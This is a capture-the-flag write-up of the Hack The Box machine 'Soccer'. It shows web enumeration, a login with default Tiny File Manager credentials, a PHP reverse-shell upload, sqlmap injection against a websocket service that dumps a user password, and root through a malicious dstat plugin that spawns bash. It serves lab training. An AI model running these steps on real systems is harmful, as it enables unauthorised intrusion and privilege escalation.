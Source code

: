 A quick `nmap` scan shows port `80` occupied by nginx and port `9091` running an unknown service.

Visiting the ip address in the web browser redirects to `soccer.htb`, si I add that to the hosts file

```
echo "{target_ip} soccer.htb" | sudo tee -a /etc/hosts
```

I do a directory search with `feroxbuster`

```
$ feroxbuster -u http://soccer.htb
                                                                                                                                                                                              
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://soccer.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        7l       12w      162c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        7l       10w      162c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      494l     1440w    96128c http://soccer.htb/ground3.jpg
200      GET     2232l     4070w   223875c http://soccer.htb/ground4.jpg
200      GET      809l     5093w   490253c http://soccer.htb/ground1.jpg
200      GET      711l     4253w   403502c http://soccer.htb/ground2.jpg
200      GET      147l      526w     6917c http://soccer.htb/
301      GET        7l       12w      178c http://soccer.htb/tiny => http://soccer.htb/tiny/
301      GET        7l       12w      178c http://soccer.htb/tiny/uploads => http://soccer.htb/tiny/uploads/

```

I get useful results from the directories `/tiny` and `/tiny/uploads`.

When I visit the directory, there is a login for the software `Tiny File Manager` version `2.4.3`, doing a google search I find that there are default credentials `admin:admin@123`.

After signing in I am able to navigate to `tiny/uploads` and upload the reverse shell `/usr/share/webshells/php/php-reverse-shell.php`. I move the shell to my `/home/trmchale` directory and run `sudo chmod 777` on it, to give it full perms, also I change the ip address to my local box. After running a netcat listener on my local with the ip from the reverse shell, I open the uploaded php shell in the browser through the web application triggering the reverse shell to run and contacting my local listener.

Getting shell access to the victim box, I run `whoami` and I am running the user `www-data`. Visiting the file `/etc/hosts` lists a subdomain:

```
$ cat hosts
127.0.0.1	localhost	soccer	soccer.htb	soc-player.soccer.htb

127.0.1.1	ubuntu-focal	ubuntu-focal
```

I add the subdomain `soc-player.soccer.htb` to my local hosts file and visit it in my web browser.

After some research it is determined that the subdomain is vulnerable to SQL injection. First I runn `sqlmap`

```
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 --level 5 --risk 3 --batch
```

In which databases are listed, I run a more specific command enumerating the database I want, `soccer_db`

```
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --threads 10 -D
soccer_db --dump --batch
```

Where I get the credentials `player:PlayerOftheMatch2022`

I run `ssh player@{target ip}` and use the password when prompted to login. After getting user shell access, I run `cat /home/player/user.txt` to get the user flag. 

##### PrivEsc

I run the following command:

```
  $ find / -type f -perm -4000 2>/dev/null
```

This command tells me what files this user can run as root. The first file is `/usr/local/bin/doas`, running:

```
cat /usr/local/etc/doas.conf

permit nopass player as root cmd /usr/bin/dastat
```

Running `man dstat`, I find that this user can execute `dstat` as root, `dstat` can run it's plugins which are of the filename rule `/usr/local/share/dstat/dstat_*.py`. So I echo a python bash shell into a file that fits that rule:

```
$ echo 'import os; os.system("/bin/bash")' > /usr/local/share/dstat/dstat_pwn.py
```

To verify that the plugin is detected by dstat , we run the command with the --list flag.

```
  doas /usr/bin/dstat --list
```

Finally, having confirmed that our plugin is detected, we run dstat and specify the plugin by passing it as a command line argument, using a -- prefix.

```
  $ doas /usr/bin/dstat --pwn
```

Our payload successfully triggered, and we have obtained a shell as root . The final flag can be found at `/root/root.txt`

